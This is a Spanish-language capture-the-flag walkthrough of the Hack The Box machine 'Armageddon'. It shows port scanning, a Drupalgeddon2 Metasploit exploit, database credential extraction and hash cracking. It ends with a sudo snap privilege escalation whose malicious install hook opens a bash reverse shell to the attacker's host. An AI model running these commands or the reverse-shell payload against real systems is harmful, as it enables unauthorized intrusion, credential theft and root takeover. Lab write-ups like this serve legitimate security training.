

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.10.233
Completed SYN Stealth Scan at 18:41, 18.81s elapsed (65535 total ports)
Nmap scan report for 10.10.10.233
Host is up, received user-set (0.26s latency).
Scanned at 2024-06-03 18:41:20 -03 for 19s
Not shown: 62327 closed tcp ports (reset), 3206 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p22,80 10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.26s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
| 2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| 256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open http Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Armageddon | Armageddon
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
Si accedemos al sitio, vemos un panel de login. Nos permite crear una cuenta, por lo tanto, lo intentamos hacer pero vemos que requiere aprobación del administrador:
Vamos a intentar encontrar directorios ocultos con gobuster:
gobuster dir -u http://10.10.10.233 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
Contenido del directorio /scripts:
También observamos dentro del robots.txt, un listado de sitios que no están siendo indexados, donde se descatan algunos con extensión .txt:
Si vemos el archivo INSTALL.txt, tendremos detalles de cómo se hizo la instalación. Nos dice que Drupal creará automáticamente un archivo de configuración dentro de /sites/default/settings.php.
Hacemos un escaneo con droopscan y tenemos más certeza de la versión:
Intrusión
Vamos a buscar exploits para Drupal 7.56:
Vemos que existen algunos exploits que podemos usar, aunque algunos requieren autenticación. Vamos a usar el módulo exploit/unix/webapp/drupal_drupalgeddon2 de Metasploit:
Al ejecutarlo, obtenemos una sesión como un usuario no privilegiado:
Navegamos el servidor. En el archivo /sites/default/settings.php observamos las credenciales para conectarse a la base de datos en texto claro:

Vamos a conectarnos para listar las bases de datos existentes:
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
Ahora listaremos todas las tablas de la BD drupal:
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D 'drupal' -e 'show tables;'
Existe la columna users, por lo tanto, vamos a consultar el contenido:
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D 'drupal' -e 'select * from users'
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D 'drupal' -e 'select name,pass from users'

Vemos el usuario que cree anteriormente, y luego:
brucetherealadmin $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
La contraseña está hasheada, por lo que podemos utilizar John the Ripper para intentar obtenerla:
echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash.txt
john hash.txt
Obtenemos la contraseña booboo para el usuario brucetherealadmin. Vamos a probarla por SSH.
Accedemos, y desde aquí ya podemos ver la primer flag:
Escalación de privilegios
Si ejecutamos el comando sudo -l, vemos que el usuario puede ejecutar /usr/bin/snap como root sin proporcionar contraseña:
Buscamos esto en GTFOBins. Tal como nos indica, generamos el binario en nuestra PC atacante. Inicialmente, ejecutaremos el comando id para ver si tenemos éxito:
Ahora, transferimos el archivo vía scp al destino (en una carpeta temporal que creamos en el directorio /tmp/)
scp xxxx_1.0_all.snap brucetherealadmin@10.10.10.233:/tmp/tmp.Uggc2Vw5cU/
Y lo ejecutamos como se nos indica:
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
Por lo tanto, ahora haremos el mismo procedimiento pero para intentar entablarnos una Reverse Shell:
COMMAND="bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
Lo transferimos al destino:
scp xxxx_1.0_all.snap brucetherealadmin@10.10.10.233:/tmp/tmp.Uggc2Vw5cU/
Ahora nos ponemos a la escucha en el puerto que definimos y ejecutamos el nuevo binario de igual forma que antes. Ahora obtenemos una Reverse Shell donde somos root:
Desde aquí podemos ver la segunda flag: